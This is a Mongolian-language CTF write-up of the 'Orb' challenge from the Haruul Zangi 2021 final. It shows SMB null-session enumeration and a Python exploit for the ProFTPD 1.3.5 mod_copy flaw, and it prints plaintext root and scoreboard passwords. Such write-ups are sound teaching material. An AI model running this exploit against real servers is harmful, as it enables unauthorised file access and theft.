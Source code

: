 ```yaml
---
published: true
---
```

# HZ 2021 Final Round Orb

<p align="center">
  <img src="https://raw.githubusercontent.com/fg0d/fg0d.github.io/master/photos/hzz.png">
</p>

"Харуул Занги 2021" амжилттай болж өндөрлөлөө. Миний бие энэ жил **AnonSec** багаас хоёр найзтайгаа хамт оролцсон бөгөөд 1-р шатанд 3-р байранд , 2-р шатанд 5-р байранд орсон билээ. Энэ жил өмнө жилийн тэмцээнийг сонирхолтой болгож өгсөн зүйл нь Финалын шат "Attack And Defense" төрлөөр явагдсан. Манай баг төдийлөн өндөр амжилт үзүүлж чадаагүй ч гэсэн өөрсдийн бодсон бодлогоо тайлбартайгаар хүргэх нь зүйтэй болов уу гэж бодлоо.

## Orb

Финалын шатанд баг бүрт тусдаа Docker үүсгэж өгсөн учраас эхлээд SSH-ээр хандаж орох хэрэгтэй болсон

Жишээ нь: **Манай багийн SSH login хэсэг**

Багийн нэр: **AnonSec**
<br>
Манай багийн domain: **hz-vulbox3.haruulzangi.mn**
<br>
SSH username: **root**
<br>
password: **u3RYQMZDaAg4bEEq6SmLOi**
<br>
[Онооны самбар харах , флагаа оруулах хэсэг:](http://final.haruulzangi.mn:19999/)
<br>
"Нэвтрэх нэр": **AnonSec**
<br>
"Нууц үг": **5Ft1ELGZOqUI87W4**

Үүний дараа бид challenge бүрийн docker-н мэдээллийг харахын тулд энэхүү тушаалыг ашиглах боломжтой

root@ip-10-10-20-23:~# **docker ps -a**

`e57944a41e96   orb             "/tmp/entrypoint.sh …"   9 hours ago    Up 6 hours   0.0.0.0:21->21/tcp, :::21->21/tcp, 0.0.0.0:139->139/tcp, :::139->139/tcp, 0.0.0.0:445->445/tcp, :::445->445/tcp, 0.0.0.0:2205->22/tcp, :::2205->22/tcp   orb`

Тушаалыг бичсэнээр бид нар **Orb** даалгаварлуу **bash shell** -ээр орж байгаа юм.

root@ip-10-10-20-23:~# **docker exec -it orb /bin/bash**

Орсны дараа файлуудыг нэг бүрчлэн туршиж үзэхэд ProFTPd , Samba гэсэн хоёр танил сервис байхыг харж болно. 

`Samba буюу SMB нь 445 , 139-р портон дээр ажилладаг файл хуваалцах боломжыг бүрдүүлдэг протокол`

`ProFTPd буюу FTP нь 21-р портон дээр ажилладаг файл дамжуулах боломжыг бүрдүүлдэг протокол`

> SMB дээр Null session үүсгэж нууц үг шаардлагүйгээр хандалт хийх боломжтой эмзэг байдал байдаг

> ProFTPd дээр хамгийн сайн мэдэх mod_copy эмзэг байдал байдаг

Одоо тэгвэл энэхүү хоёр сервисын уялдаа холбоог жаахан ойлгох хэрэг гарна. Эхлээд юуг ашиглаж болох вэ гэхээр:

SMB-г Enumeration хийж мэдээлэл цуглуулах хэрэгтэй.

`$IP = '18.162.113.173'`

`enum4linux -A $IP`

ингэснээр ямар хэрэглэгчид байгаа мэдээллийг , мөн default-аар байгаа бол шууд нууц үгийг олох боломжтой байдаг

`yondu`

`gamora`

`nebula`

гэсэн 3 хэрэглэгч олдлоо

Тэгвэл энэхүү 3 хэрэглэгчрүү ороход бидний Permission хүрэх үү? Access хийж чадах уу гэдгийг шалгахын тулд:

`$IP = '18.162.113.173'`

`smbmap -H 18.162.113.173`

   `print$          Disk      Printer Drivers
	yondu           Disk      /samba/ is a nice planet to place orb ( Admin access )
	gamora          Disk      Where is the orb? ( Admin access )
	nebula          Disk      Why is gamora? ( Free access )
	IPC$            IPC       IPC Service (e57944a41e96 server (Samba, Ubuntu))`
    
үүнээс харвал **nebula** хэрэглэгчрүү нэвтрэхэд **Free access**-тай буюу **Null session** үүсгэх боломжтой байгааг харж болно.

`smbclient //18.162.113.173/nebula`

нууц үг шаардлагагүй шууд **Enter** дараад орно

Энэ маань бидний файлаа хуулаад тавихад харах боломжтой хэрэглэгч гэж ойлгож болно.

За одоо ProFTPd-гээр үндсэн **flag** файлаа mod_copy хийж **nebula** хэрэглэгчрүү хуулах шаардлага үүсэж байгаа

IP-гаар нь скан хийж үзвэл:

`21/tcp   open   ftp         ProFTPD 1.3.5`

ProFTPd 1.3.5 хувилбар байсан бөгөөд Exploit-н хайж үзвэл

[Exploit хийх линк](https://www.exploit-db.com/exploits/36742) энэхүү линкээр ороод үзэж болно

Шууд энэхүү exploit-г ажиллуулах боломжгүй бөгөөд үүнийг скрипт болгоод бага зэрэг өөрчлөлт оруулвал

```python
import sys
import socket
import requests

def exploit(client, target):
    client.connect((target,21)) # Connecting to the target server
    banner = client.recv(74)
    print(banner.decode())
    client.send(b'site cpfr /flag\r\n')
    print(client.recv(1024).decode())
    client.send(b'site cpto /samba/nebula/flag.txt\r\n')
    print(client.recv(1024).decode())
    client.close()
    print('Exploit Completed')

def check(url):
    req = requests.get(url) # Requesting the written PoC php file via HTTP
    if req.status_code == 200:
        print('[+] File Written Successfully')
        print(f'[+] Go to : {url}')
    else:
        print('[!] Something Went Wrong')
        print('[!] Directory might not be writable')

def main():
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    target = sys.argv[1]
    exploit(client, target)
    url = 'http://' + target + '/test.php'
    check(url)

if __name__ == '__main__':
    main()
```

**Exploit completed** болсоны дараа **smbclient**-аар орсон **nebula** хэрэглэгчээр ороод **dir** тушаалыг биелүүлэхэд **flag** хуулагдсан байх болно

<p align="center">
  <img src="https://raw.githubusercontent.com/fg0d/fg0d.github.io/master/photos/flag.PNG">
</p>